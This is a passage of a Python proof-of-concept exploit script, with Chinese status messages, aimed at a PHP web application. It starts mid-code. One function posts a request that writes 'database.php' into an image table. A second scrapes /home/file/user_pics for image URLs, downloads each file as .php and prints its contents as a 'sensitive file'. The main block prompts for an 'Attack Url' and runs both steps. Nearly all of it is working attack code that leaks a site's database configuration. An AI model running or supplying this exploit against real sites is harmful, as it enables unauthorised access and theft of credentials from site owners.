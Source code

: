 ```python
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    data = {
        "1":1
    }
    try:
        response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
        if response.status_code == 200:
            print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
        else:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_2(target_url):
    vnln_url = target_url + "/public/index.php/home/file/user_pics"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vnln_url, headers=headers).text
        href = re.findall(r'<img src="(.*?)"', response)
        for i in href:
            print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
            data = requests.get(url=i, headers=headers)
            path = str(random.randint(1,999)) + '.php'
            with open(path, 'wb') as f:
                f.write(data.content)
                print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
    except:
            print("\033[31m[x] 获取文件名失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
    image_url = POC_2(target_url)
```
